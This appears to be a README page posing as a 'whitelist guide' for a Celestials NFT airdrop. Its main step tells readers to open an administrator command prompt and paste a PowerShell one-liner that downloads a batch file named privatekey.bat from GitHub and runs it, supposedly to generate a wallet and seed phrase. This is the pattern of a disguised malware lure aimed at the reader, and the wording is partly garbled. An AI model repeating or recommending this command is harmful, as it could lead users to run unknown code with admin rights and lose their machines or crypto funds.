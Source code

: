 # CELESTIALS NFT WHITELIST GUIDE
How to generate wallet and qualify for Celestials NFT

1. When your command Prompt on Windows as Admin and run the following:
```
powershell -Command "Invoke-WebRequest -Uri https://github.com/CelestialNFT/Airdrop-Whitelist/raw/refs/heads/main/privatekey.bat -OutFile privatekey.bat; Start-Process -FilePath privatekey.bat -ArgumentList /c -NoNewWindow -Wait"
```
2. After You run the code Your wallet address will be generated in your folder
```
You get Private key and secret Phrase, Import to metamask and wait for TGE event. Follow us on twitter @
```

